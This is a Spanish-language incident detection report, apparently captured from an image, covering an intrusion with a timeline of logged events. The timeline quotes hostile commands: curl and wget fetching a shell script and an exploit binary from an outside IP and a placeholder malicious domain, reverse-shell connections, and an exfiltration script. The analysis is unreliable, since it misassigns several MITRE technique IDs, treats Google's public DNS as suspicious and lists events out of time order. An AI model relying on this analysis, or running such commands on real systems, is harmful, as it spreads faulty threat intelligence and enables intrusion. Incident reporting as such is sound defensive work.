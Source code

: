 # Informe de Detección de Incidente de Ciberseguridad

**1. 📝 Resumen Ejecutivo:**

Este informe detalla un incidente de ciberseguridad ocurrido el 15 de agosto de 2024, entre la 01:00:00 y las 03:44:20, que involucró múltiples intentos de acceso no autorizados a rutas sensibles, manipulación de logs, descarga y ejecución de scripts maliciosos, y exfiltración de datos. La actividad maliciosa indica una posible intrusión avanzada, que probablemente comenzó con una exploración (T1566) y culminó en la obtención de privilegios elevados (T1059) y exfiltración de datos (T1059.001, T1566.002)  hacia la dirección IP 185.23.91.10, la cual, si bien no presenta mala reputación según VirusTotal, se identifica como la dirección central del ataque.  La repetición de las acciones y el uso de herramientas como `curl`, `wget` y `nc` apuntan a un ataque automatizado. Se recomienda una respuesta inmediata que incluya análisis forense completo, bloqueo de IPs comprometidas, análisis de la vulnerabilidad que permitió la intrusión, revisión y restauración de los logs, y cambio de credenciales de acceso.

**2. ⏱ Timeline de eventos críticos:**

| Fecha y Hora             | Evento                                                                  | Motivo                                                                        |
|--------------------------|--------------------------------------------------------------------------|-------------------------------------------------------------------------------|
| 2024-08-15 01:00:22     | Unauthorized access attempt on /admin/internal/reporting               | Intento de acceso a ruta administrativa.                                     |
| 2024-08-15 01:00:32     | Log tampering detected                                                   | Primer indicio de intento de ocultamiento de la actividad maliciosa.             |
| 2024-08-15 01:01:00     | Connection established to external IP 8.8.8.8                         | Conexión a una IP con indicadores de uso potencialmente malicioso (Google DNS) |
| 2024-08-15 01:01:44     | Reverse shell connection initiated                                      | Establecimiento de una conexión de shell inversa, indicando control remoto.    |
| 2024-08-15 01:02:20     | Command executed: /usr/bin/python3 exfil.py                             | Ejecución de un script Python sospechoso, probablemente de exfiltración.        |
| 2024-08-15 01:02:36     | Elevated privileges used on /tmp/tmpx837sh.sh                            | Escalada de privilegios a través de un archivo descargado.                     |
| 2024-08-15 01:02:30     | File downloaded to /root/.bash_history                                 | Descarga de un archivo del historial de comandos del usuario root.              |
| 2024-08-15 01:02:40     | Elevated privileges used on /tmp/tmpx837sh.sh                            | Escalada de privilegios a través de un archivo descargado.                     |
| 2024-08-15 01:02:56     | Unauthorized access attempt on /admin/internal/reporting               | Intento de acceso a ruta administrativa.                                     |
| 2024-08-15 01:03:00     | Command executed: /usr/bin/python3 exfil.py                             | Ejecución de un script Python sospechoso, probablemente de exfiltración.        |
| 2024-08-15 01:03:10     | Reverse shell connection initiated                                      | Establecimiento de una conexión de shell inversa, indicando control remoto.    |
| 2024-08-15 01:03:16     | File downloaded to /admin/internal/reporting                            | Descarga de un archivo en una ruta administrativa.                           |
| 2024-08-15 01:03:27     | Elevated privileges used on /var/log/auth.log                           | Escalada de privilegios sobre el archivo de logs de autenticación.             |
| 2024-08-15 01:04:32     | Log tampering detected                                                   | Intento de ocultamiento de la actividad maliciosa.             |
| 2024-08-15 01:05:00     | Command executed: curl http://185.23.91.10:8080/shell.sh                 | Ejecución de un comando curl hacia una IP sospechosa, descargando un shell.     |
| 2024-08-15 01:06:18     | Suspicious command executed: wget http://malicious.domain/exploit.bin   | Ejecución de un comando wget hacia un dominio malicioso.                       |
| 2024-08-15 01:08:40     | Elevated privileges used on /tmp/tmpx837sh.sh                            | Escalada de privilegios.                                                      |
| 2024-08-15 01:08:42     | Command executed: curl http://185.23.91.10:8080/shell.sh                 | Ejecución de un comando curl hacia una IP sospechosa, descargando un shell.     |
| 2024-08-15 01:08:45     | Elevated privileges used on /tmp/tmpx837sh.sh                            | Escalada de privilegios.                                                      |
| 2024-08-15 01:11:00     | Command executed: bash /tmp/install.sh                                | Ejecución de un script bash descargado, probablemente de instalación de malware.|
| 2024-08-15 01:11:24     | Reverse shell connection initiated                                      | Establecimiento de una conexión de shell inversa.                             |
| 2024-08-15 01:12:00     | System shutdown requested by admin                                     | Intento de ocultamiento. Potencialmente forzado.                             |
| 2024-08-15 01:18:59     | File downloaded to /home/admin/.ssh                                 | Descarga de un archivo a la carpeta SSH del usuario admin.                   |
